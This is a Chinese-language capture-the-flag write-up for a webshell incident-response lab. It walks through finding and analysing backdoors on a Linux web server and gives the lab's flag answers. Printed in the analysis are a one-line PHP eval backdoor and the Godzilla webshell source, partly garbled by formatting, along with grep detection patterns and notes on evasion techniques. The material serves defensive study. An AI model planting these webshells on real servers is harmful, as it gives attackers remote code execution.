# webshell查杀

‍

### 一、前言

‍

**那什么是WebShell应急响应呢？**

简单官方一点来说，WebShell应急响应是指在检测到WebShell（恶意Web脚本）攻击后，采取一系列措施来控制、消除威胁，并恢复受影响的系统和服务。WebShell是一种常见的攻击手段，攻击者通过上传或注入恶意脚本到Web服务器上，从而获得对服务器的远程控制权限，而我们需要做的就是找到问题所在根源并且解决掉它。

当然也是很开心收到了师傅们给的玄机注册邀请码，马上注册就直奔应急响应例题。

‍

[玄机平台链接](https://xj.edisec.net/challenges/25)

‍

### 二、常规后门查杀

‍

#### 1、手动排查webshell

**1.1、静态检测**

我们可以查找一些特殊后缀结尾的文件。例如：.asp、.php、.jsp、.aspx。

然后再从这类文件中查找后门的特征码，特征值，危险函数来查找webshell，例如查找内容含有exec()、eval()、system()的文件。

优点：快速方便，对已知的webshell查找准确率高，部署方便，一个脚本就能搞定。

缺点：漏报率、误报率高，无法查找0day型webshell，而且容易被绕过。

**1.2、动态检测**

webshell执行时刻表现出来的特征，我们称为动态特征。只要我们把webshell特有的HTTP请求/响应做成特征库，加到IDS里面去检测所有的HTTP请求就好了。webshell如果执行系统命令的话，会有进程。Linux下就是起了bash，Win下就是启动cmd，这些都是动态特征。

**1.3、日志检测**

使用Webshell一般不会在系统日志中留下记录，但是会在网站的web日志中留下Webshell页面的访问数据和数据提交记录。日志分析检测技术通过大量的日志文件建立请求模型从而检测出异常文件，例如：一个平时是GET的请求突然有了POST请求并且返回代码为200。

‍

#### 2、工具排查webshell

相对于手工排查，工具排查可能更好上手，但是如果想走的更远一些，某些线下的比赛可能会断网，也就说，手工排查的一些基本操作还是要明白的。（但是工具排查真的很香）

推荐一些查杀的平台工具（大部分都是在线端）

‍

[1、阿里伏魔](https://ti.aliyun.com/#/webshell)

阿里伏地魔简介：

阿里伏地魔在线平台是一款功能强大的Web应用漏洞检测工具，通过自动化的扫描和检测，帮助开发者和安全团队发现和修复安全漏洞，提升Web应用的安全性。（操作简单容易上手）

在线一次只能上传2M大小的文件，对于一些大型网站，文件动则10几个G就显的有点鸡肋。

‍

​​

‍

[2、河马](https://n.shellpub.com/)

河马简介：

在线端河马是一款功能强大的Web应用安全检测工具，通过自动化的扫描和检测，帮助开发者和安全团队发现和修复安全漏洞，提升Web应用的安全性。

**在线端河马的主要功能**

1. **漏洞扫描**

    * 提供全面的Web应用漏洞扫描，检测常见的安全漏洞，如SQL注入、跨站脚本攻击（XSS）、文件包含、命令注入等。
2. **安全检测**

    * 检测Web应用的安全配置、代码质量和潜在漏洞，确保应用符合安全最佳实践。
3. **报告生成**

    * 扫描完成后，生成详细的安全报告，包括发现的漏洞类型、严重程度、漏洞位置和修复建议。
4. **修复建议**

    * 提供具体的修复建议，指导开发者如何修复代码中的安全漏洞。
5. **持续监控**

    * 提供持续监控功能，可以定期扫描Web应用，及时发现新出现的安全漏洞。
6. **API支持**

    * 提供API接口，方便集成到CI/CD流水线中，实现自动化的安全检测。

河马是客户端的，而且在线的文件上传也是比阿里伏地魔稍微大那么一些（客户端目前没有接触暂时不知道多大），但是它的查杀能力确实没有阿里伏地魔那么强，可能跟上传的文件大小多少都有点关系吧

‍

​​

‍

[3、CloudWalker(牧云)](https://stack.chaitin.com/security-challenge/webshell/index)

这里就不一一解释了，反正作用都大差不差，看大家习惯用哪一个吧；

‍

​​

‍

‍

[4、在线 webshell 查杀-灭绝师太版](http://tools.bugscaner.com/killwebshell/)

‍

​​

‍

[5、D盾](http://www.d99net.net)

D盾简介：

少有的客户端，常见的都是能查出来的而且也是很好操作易上手，可以说线下比赛断网必备吧用过的都说好！

**D盾的优点**

* **全面防护**：提供多层次的安全防护功能，覆盖常见的Web攻击和安全威胁。
* **实时监控**：实时监控Web服务器的运行状态和网络请求，及时发现和应对安全威胁。
* **易于使用**：界面友好，配置和使用简单，适合各类用户。
* **日志分析**：提供详细的日志和报告功能，帮助管理员识别和追踪攻击行为。

‍

​​

‍

[6、微步在线](https://threatbook.cn/next/product/sandbox)

微步就不多说了，之前我内存取证分析病毒就是用它，效果没的说；

‍

​​

‍

### 三、概览

#### 简介

靶机账号密码 root xjwebshell  
1.黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}  
2.黑客使用的什么工具的shell github地址的md5 flag{md5}  
3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx  
4.黑客免杀马完整路径 md5 flag{md5}

‍

### 四、参考文章

‍

[玄机平台应急响应—webshell查杀](https://jishuzhan.net/article/1795682553114398721)

‍

[【玄机】-----应急响应](https://blog.csdn.net/m0_63138919/article/details/138822190)

‍

### 五、步骤（解析）

‍

#### 准备工作#1.0

首先得有个Xshell，我这边用的是免费版的；

[ Xshell7免费版下载链接](https://www.xshell.com/zh/free-for-home-school/)

Xshell是一款功能强大的终端模拟器，通过支持多种远程连接协议、提供标签式界面、强大的安全功能和自动化操作，帮助用户高效、安全地管理和访问远程Unix/Linux服务器。无论是日常的远程管理还是复杂的自动化任务，Xshell都能提供强有力的支持。

‍

​​

‍

**接着启动环境，会给出IP，用户和密码都有了，我们随便新建一个链接即可；**

‍

​​

‍

接着

‍

​​

‍

**后面输入用户以及密码我就不演示了，输入完成可以看见链接成功；**

‍

​​

‍

#### 步骤#1.1

‍

##### 黑客webshell里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}

‍

**首先代码特征**

1. **可疑函数调用**

    * WebShell通常会使用一些危险的函数来执行系统命令或代码，如：

      * PHP: `eval()`​, `system()`​, `exec()`​, `shell_exec()`​, `passthru()`​, `assert()`​, `base64_decode()`​
      * ASP: `Execute()`​, `Eval()`​, `CreateObject()`​
      * JSP: `Runtime.getRuntime().exec()`​
2. **编码和解码**

    * WebShell经常使用编码和解码技术来隐藏其真实意图，如Base64编码：

```
     eval(base64_decode('encoded_string'));
```

3. **文件操作**

    * WebShell可能会包含文件操作函数，用于读取、写入或修改文件：

      * PHP: `fopen()`​, `fwrite()`​, `file_get_contents()`​, `file_put_contents()`​
      * ASP: `FileSystemObject`​
4. **网络操作**

    * WebShell可能会包含网络操作函数，用于与远程服务器通信：

      * PHP: `fsockopen()`​, `curl_exec()`​, `file_get_contents('http://...')`​
      * ASP: `WinHttp.WinHttpRequest`​

‍

**上面刚刚也说了我们可以尝试定位一些特殊的后缀文件，例如：.asp、.php、.jsp、.aspx。**

‍

命令：

	//搜索目录下适配当前应用的网页文件，查看内容是否有Webshell特征  
	find ./ type f -name " *.jsp&quot; | xargs grep &quot;exec(&quot;find ./ type f -name &quot;* .php" | xargs grep "eval("  
	find ./ type f -name " *.asp&quot; | xargs grep &quot;execute(&quot;find ./ type f -name &quot;* .aspx" | xargs grep "eval("

	//对于免杀Webshell，可以查看是否使用编码  
	find ./ type f -name "*.php" | xargs grep "base64_decode"

‍

一个一个进行尝试即可；

‍

	find ./ type f -name "*.php" | xargs grep "eval("

‍

> 1. ​`xargs`​：`xargs`​命令用于将输入数据重新格式化后作为参数传递给其他命令。在这个命令中，`xargs`​将`find`​命令找到的文件列表作为参数传递给`grep`​命令。
> 2. ​`grep "eval("`​：`grep`​命令用于搜索文本，并输出匹配的行。这里`"eval("`​是`grep`​命令的搜索模式，用于查找包含`eval(`​字符串的行。

‍

**可以看见这里PHP结尾的文件都不太正常；**

‍

	<?php phpinfo();@eval($_REQUEST[1]);?>

‍

这句想必如果大家之前有接触过web的都不会太陌生；

1. ​`<?php phpinfo(); ?>`​：

    * ​`<?php`​ 是 PHP 代码的开始标记。
    * ​`phpinfo()`​ 是一个内置的 PHP 函数，用于输出关于 PHP 配置的大量信息，包括 PHP 版本、服务器信息、环境变量、PHP 扩展等。这个函数通常用于调试和获取服务器配置信息。
    * ​`?>`​ 是 PHP 代码的结束标记。
2. ​`@eval($_REQUEST[1]);`​：

    * ​`@`​ 符号在 PHP 中用于抑制错误信息的输出。如果 `eval()`​ 函数执行时发生错误，错误信息将不会被显示。
    * ​`eval()`​ 是一个 PHP 函数，它将传入的字符串作为 PHP 代码执行。这非常危险，因为它允许执行任意代码，这可能导致安全漏洞，如远程代码执行（RCE）。
    * ​`$_REQUEST`​ 是一个超全局变量，它包含了 `$_GET`​、`$_POST`​ 和 `$_COOKIE`​ 的数据。在这个上下文中，它被用来获取通过 HTTP 请求传递的参数。
    * ​`[1]`​ 表示从 `$_REQUEST`​ 数组中获取第二个元素（数组索引从 0 开始计数）。这意味着代码将执行 `$_REQUEST`​ 数组中第二个元素的值作为 PHP 代码。

‍

**所以很明显shell.php是一个病毒文件，那我们定位一下它的目录过去查看一下内容；**

‍

​​

‍

**发现里面没啥内容，不过没关系我们还有两个可以进行查看，继续分析另外两个PHP文件；**

‍

​​

‍

**最后终于在gz.php里面发现了；**

‍

	<?php  
	@session_start();  
	@set_time_limit(0);  
	@error_reporting(0);  
	function encode($D,$K){  
	    for($i=0;$i<strlen($D);$i++) {  
	        $c =$K[$i+1&15];  
	        $D[$i] = $D[$i]^$c;  
	    }  
	    return $D;  
	}  
	//027ccd04-5065-48b6-a32d-77c704a5e26d  
	$payloadName='payload';  
	$key='3c6e0b8a9c15224a';  
	$data=file_get_contents("php://input");  
	if ($data!==false){==    ==$data=encode($==​==data,$key);if (isset(==​==$_SESSION[$==​==payloadName])){==        ==$payload=encode($==​==_SESSION[==​==$payloadName],$==​==key);if (strpos($payload,&quot;getBasicsInfo&quot;)===false){==            ==$payload=encode($==​==payload,$key);}eval($payload);echo encode(@run(==​==$data),$==​==key);}else{if (strpos($data,&quot;getBasicsInfo&quot;)!==false){  
	            $_SESSION[$payloadName]=encode($data,$key);  
	        }  
	    }  
	}

‍

**简单分析一下这段恶意代码；**

1. ​`@session_start();`​：启动会话
2. ​`@set_time_limit(0);`​：设置脚本执行时间限制为无限制
3. ​`@error_reporting(0);`​：关闭错误报告
4. ​`function encode(K){...}`​：定义了一个名为 `encode`​ 的函数，它接受两个参数 `$D`​ 和 `$K`​。这个函数看起来像是一个简单的异或编码函数，用于对数据进行加密或解密。它使用 `$K`​ 作为密钥，对 `$D`​ 中的每个字符进行异或操作。
5. 接下来的几行代码定义了 `$payloadName`​、`$key`​ 和 `$data`​ 变量。`$payloadName`​ 是用于存储有效载荷的会话变量名，`$key`​ 是用于编码的密钥，`$data`​ 是从 `php://input`​ 流中读取的数据。
6. ​`if ($data!==false){...}`​：如果从 `php://input`​ 读取的数据不是 `false`​（即成功读取了数据），则执行以下代码块。
7. ​`if (isset(payloadName])){...}`​：检查 `$payloadName`​ 对应的会话变量是否已设置。
8. ​`if (strpos($payload,"getBasicsInfo")===false){...}`​：检查 `$payload`​ 变量中是否包含字符串 `"getBasicsInfo"`​。
9. ​`eval($payload);`​：如果 `$payload`​ 变量包含 `"getBasicsInfo"`​ 字符串，则执行 `$payload`​ 变量中的 PHP 代码。
10. ​`echo encode(@run(key);`​：如果 `$data`​ 包含 `"getBasicsInfo"`​ 字符串，则执行 `@run($data)`​ 函数，并将结果编码后输出。

‍

**总结：**

这段代码的目的是接收通过 `php://input`​ 流发送的数据，对其进行编码，并根据会话变量中的内容执行特定的 PHP 代码。这通常用于隐藏恶意代码或后门，使得攻击者可以通过特定的请求触发执行。

‍

​​

‍

最后找到flag；

‍

	flag{027ccd04-5065-48b6-a32d-77c704a5e26d}

‍

#### 步骤#1.2

‍

##### 黑客使用的什么工具的shell github地址的md5 flag{md5}

‍

遇到这种类型的题目，我们就是要分析一下是什么类型的webshell，其实开头三句就可以分析出是godzilla的webshell了；

为什么这样说？

哥斯拉病毒是一种Java后门木马，通常用于攻击并控制Web服务器。特征就包括：

1.  **@session_start();**  - 开启一个会话。
2.  **@set_time_limit(0);**  - 设置脚本执行时间为无限。
3.  **@error_reporting(0);**  - 关闭所有错误报告。

**这些代码行主要用于隐藏病毒活动并确保其能够长时间运行而不被发现。哥斯拉病毒通常会通过Webshell或其他漏洞注入到服务器中，然后使用这些命令来掩盖其存在并执行进一步的恶意操作。**

‍

所以我们只需要找到它的github地址并且进行MD5加密即可；

**Godzilla地址：https://github.com/BeichenDream/Godzilla**

‍

​​

‍

[MD5在线加密](https://www.sojson.com/md5/)

‍

	https://github.com/BeichenDream/Godzilla

‍

​​

‍

	flag{39392DE3218C333F794BEFEF07AC9257}

‍

#### 步骤#1.3

‍

##### 黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx

‍

那既然说黑客隐藏shell了，那我们肯定需要用到命令ls -la进行查找；

‍

然后发现在挨个查找的过程中发现.Mysqlli.php如果普通的ls查看目录是查不出来的，必须用到ls -la才行，所以它就是隐藏了，我们直接定位一些它的路径，进行MD5加密即可；

‍

​​

‍

	root@ip-10-0-10-3:/var/www/html/include# cd Db  
	root@ip-10-0-10-3:/var/www/html/include/Db# ls  
	Mysqli.php  Mysql.php  Sqlite.php  
	root@ip-10-0-10-3:/var/www/html/include/Db# ls -l  
	total 24  
	-rwxr-xr-x 1 www-data www-data 4752 Mar 14  2021 Mysqli.php  
	-rwxr-xr-x 1 www-data www-data 4921 Mar 14  2021 Mysql.php  
	-rwxr-xr-x 1 www-data www-data 4433 Mar 14  2021 Sqlite.php  
	root@ip-10-0-10-3:/var/www/html/include/Db# ls -a  
	.  ..  .Mysqli.php  Mysqli.php	Mysql.php  Sqlite.php  
	root@ip-10-0-10-3:/var/www/html/include/Db# ls -la  
	total 36  
	drwxr-xr-x 2 www-data www-data 4096 Aug  2  2023 .  
	drwxr-xr-x 4 www-data www-data 4096 Aug  2  2023 ..  
	-rw-r--r-- 1 www-data www-data  768 Aug  2  2023 .Mysqli.php  
	-rwxr-xr-x 1 www-data www-data 4752 Mar 14  2021 Mysqli.php  
	-rwxr-xr-x 1 www-data www-data 4921 Mar 14  2021 Mysql.php  
	-rwxr-xr-x 1 www-data www-data 4433 Mar 14  2021 Sqlite.php  
	root@ip-10-0-10-3:/var/www/html/include/Db# pwd  
	/var/www/html/include/Db

‍

**路径：/var/www/html/include/Db/.Mysqli.php**

‍

最后我们将路径进行MD5加密即可；

‍

​​

‍

	flag{AEBAC0E58CD6C5FAD1695EE4D1AC1919}

‍

#### 步骤#1.4

‍

##### 黑客免杀马完整路径 md5 flag{md5}

‍

**什么是免杀马？**

官方解释：**免杀马**（免杀病毒或免杀Webshell）是指经过特殊处理和混淆，使其能够避开杀毒软件和安全检测工具识别的恶意软件或后门程序。黑客使用各种技术手段，使恶意代码看起来像是正常代码，从而躲避签名检测和基于规则的安全机制。这种技术通常用于Webshell和其他后门程序，目的是保持对受害系统的隐蔽访问。

常见的免杀技术；

* **代码混淆**：

  * 使用混淆工具或手动混淆代码，使其难以被直接阅读和分析。
* **编码和加密**：

  * 使用Base64、ROT13等编码方式或更复杂的加密技术隐藏恶意代码片段。
* **动态生成和执行**：

  * 通过动态生成代码并在运行时执行，绕过静态分析。例如，使用 `eval()`​、`create_function()`​ 等PHP函数。
* **多层解码**：

  * 多层编码或加密，增加分析和检测的难度。
* **使用合法函数**：

  * 恶意代码嵌入到看似合法的代码中，利用正常的函数调用执行恶意操作。

查找和处理免杀马的方法；

* **文件完整性检查**：

  * 比较当前文件与已知的良性备份文件，发现被修改或新增的文件。
* **代码审查**：

  * 手动检查可疑文件，寻找混淆、编码、加密和动态执行的代码模式。
* **安全扫描工具**：

  * 使用高级安全扫描工具，这些工具使用行为分析和机器学习来检测潜在的免杀马。
* **日志分析**：

  * 查看服务器访问日志和错误日志，寻找异常访问和执行模式。
  * 检查文件修改时间，与正常更新周期不符的文件可能是可疑的。
* **基于特征的检测**：

  * 使用YARA规则等特征检测工具，根据已知的免杀马特征进行扫描。

**总结：免杀马通过静态检测是检测不到的，因为在免杀的过程中将webshel的特征值以及特征函数都给去掉了，因为webshell执行会在网站日志留下记录，那我们就到网站日志里面看看有啥可疑的记录，这里也顺便说一下linux的日志存放在/var/log目录下。**

‍

这里我们总结一下常见网站日志的路径：

‍

**IIS（Internet Information Services）**

IIS是Windows上的默认Web服务器，其日志文件默认存储在以下路径：

* **IIS 6.0 及更早版本**：

  ​`C:\WINDOWS\system32\LogFiles\W3SVC[SiteID]\`​
* **IIS 7.0 及更高版本**：

  ​`C:\inetpub\logs\LogFiles\W3SVC[SiteID]\`​

  其中，[SiteID] 是网站的标识符，通常是一个数字。

‍

**Apache HTTP Server**

如果在Windows上安装了Apache，日志文件默认存储在安装目录下的logs文件夹中：

​`C:\Program Files (x86)\Apache Group\Apache2\logs\`​

或者

​`C:\Program Files\Apache Group\Apache2\logs\`​

具体路径取决于安装时选择的位置。

‍

**Linux系统中的网站日志路径**

**Apache HTTP Server**

在Linux上，Apache日志文件通常位于以下目录：

* **访问日志**：

  ​`/var/log/apache2/access.log`​

  或者

  ​`/var/log/httpd/access_log`​
* **错误日志**：

  ​`/var/log/apache2/error.log`​

  或

  ​`/var/log/httpd/error_log`​

不同的Linux发行版可能有不同的目录。例如，在Debian/Ubuntu上通常使用`/var/log/apache2/`​，而在Red Hat/CentOS上通常使用`/var/log/httpd/`​。

‍

**Nginx**

Nginx是另一个流行的Web服务器，默认的日志文件路径如下：

* **访问日志**：

  ​`/var/log/nginx/access.log`​
* **错误日志**：

  ​`/var/log/nginx/error.log`​

‍

**如何查看和分析日志文件？**

* **Windows**：

  * 使用文本编辑器（如Notepad、Notepad++）直接打开日志文件查看。
  * 可以使用IIS管理器查看IIS日志。
* **Linux**：

  * 使用命令行工具查看日志，例如：

    ​`tail -f /var/log/apache2/access.log tail -f /var/log/nginx/access.log`​
  * 可以使用日志分析工具（如GoAccess、AWStats）生成可视化的日志报告。

‍

**最后一个flag要求我们找到免杀马的路径，既然它经过了免杀处理，那么木马的特征值以及特征函数应该都是被去掉了。这时我们再通过静态检测是基本检测不到的，从上面我们就可以看出我们只找到了三个马。而且上面我们说了webshell执行会在网站日志留下记录，那我们就到网站日志里面看看有啥可疑的记录。**

‍

​​

‍

我们到apache2目录下面查看一下access.log日志，查看分析一下；（因为是日志所以记录有点多）

‍

​​

‍

大部分都是重复的只有少数不一样的；

我们可以看到有个名为top.php的文件执行了phpinfo()；且返回值为200，有点可疑。去找到相对应的文件发现是一个正常的文件来。

‍

​​

‍

**继续往下翻，又发现一个较为可疑的文件，到此目录下面查看该文件。**

目录：/wap/top.php

‍

​​

‍

原来是个恶意文件，最后把路径进行md5进行加密即可；

路径：/var/www/html/wap/top.php

‍

为什么可以确认是恶意文件？

* **混淆和隐藏**：

  * 使用Base64编码和字符异或操作来混淆代码。这些技术通常用于隐藏恶意代码，避免被直接检测到。
* **动态执行**：

  * 动态生成并调用函数。这种模式允许攻击者通过URL参数传递任意代码并在服务器上执行，具有极大的危险性。
* **外部输入**：

  * 使用`$_GET`​参数来控制代码行为。通过外部输入来决定代码逻辑，使得攻击者可以远程控制服务器，执行任意PHP代码。

所以这里毫无疑问了；

‍

​​

‍

进行MD5加密即可；

‍

​​

‍

	flag{EEFF2EABFD9B7A6D26FC1A53D3F7D1DE}

‍

#### 拓展：工具排查webshell

‍

使用工具分析，确实操作上相比手工确实方便很多；

这里我使用的是XFTP来下载var/www/html文件的源码；

话不多说，直接上操作；

‍

[XFTP官方免费版下载链接](https://www.xshell.com/zh/free-for-home-school/)

‍

**这里新建一个我就不多说了基本操作，上面也有，大差不差，直接放图吧；**

‍

​​

‍

这是链接成功的页面；

‍

​​

‍

**找到var/www/html文件，右键进行传输即可，传输位置随便**；

‍

​​

‍

**接着把我们已下载好的var文件进行压缩，丢进查杀平台，这里我用的**​**[河马在线端](https://n.shellpub.com/)**​ **；**

‍

​​

‍

**这里也列出一些它认为是恶意程序的文件，如果看过手动查杀的就会发现了，也的确跟我手动查杀出来的大差不差的；**

**接着我们进入相应的目录位置，右键记事本打开（随便啥打开都行这里我习惯记事本了），就开始分析跟liunx里面cat一个原理；**

‍

​​

‍

这里直接提交即可，所以也是能发现flag1；

接着继续分析工具查杀出来的后续几个文件，一个一个进行分析即可；

**也是发现了Godzilla的特征，所以只需要百度一下github地址进行MD5加密即可，这里也没问题；（flag2）**

	@session_start();  
	@set_time_limit(0);  
	@error_reporting(0);

‍

​​

‍

也是发现了目录位置，所以只需要随便找个MD5解密在线网站进行加密即可，这里也没问题；（flag3）

/var/www/html/include/Db/.Mysqli.php

**接着继续分析第三个，就算不知道什么是免杀马，反正就扫出这几个目录，一个一个进行MD5加密进行提交也可以提交正确的；（flag4）**

‍

​​

‍

目录：/var/www/html/wap/top.php（MD5加密提交）

‍

‍
